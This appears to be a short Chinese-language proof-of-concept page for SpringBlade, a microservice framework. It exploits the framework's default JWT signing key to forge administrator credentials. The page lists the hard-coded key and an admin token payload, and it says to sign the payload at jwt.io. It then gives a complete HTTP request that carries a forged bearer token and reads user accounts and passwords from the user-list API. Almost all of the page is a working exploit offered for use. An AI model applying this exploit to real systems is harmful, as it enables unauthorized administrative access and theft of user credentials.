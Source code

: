 ## Springblade默认密钥可伪造凭据

## 默认密钥
```
String SIGN_KEY = "bladexisapowerfulmicroservicearchitectureupgradedandoptimizedfromacommercialproject";
```

## poc
```
{
  "tenant_id": "000000",
  "tenant_code":"000000",
  "user_name": "admin",
  "role_name": "administrator",
  "nick_name": "管理员",
  "account": "admin"
}
```
在 https://jwt.io/ 中填入上面得poc和密钥，即可得到jwt加的凭据

![image](https://github.com/wy876/POC/assets/139549762/042c7596-fa3a-4d25-ad0a-3c67d9fcecd8)


## 构造凭据获取管理员用户账户密码
```
GET /api/blade-user/user-list HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic c2FiZXI6c2FiZXJfc2VjcmV0
Blade-Auth: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJpc3MiOiJpc3N1c2VyIiwiYXVkIjoiYXVkaWVuY2UiLCJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwidXNlcl9uYW1lIjoiYWRtaW4iLCJuaWNrX25hbWUiOiLnrqHnkIblkZgiLCJ0b2tlbl90eXBlIjoiYWNjZXNzX3Rva2VuIiwiZGVwdF9pZCI6IjExMjM1OTg4MTM3Mzg2NzUyMDEiLCJhY2NvdW50IjoiYWRtaW4iLCJjbGllbnRfaWQiOiJzYWJlciJ9.UHWWVEc6oi6Z6_AC5_WcRrKS9fB3aYH7XZxL9_xH-yIoUNeBrFoylXjGEwRY3Dv7GJeFnl5ppu8eOS3YYFqdeQ
```
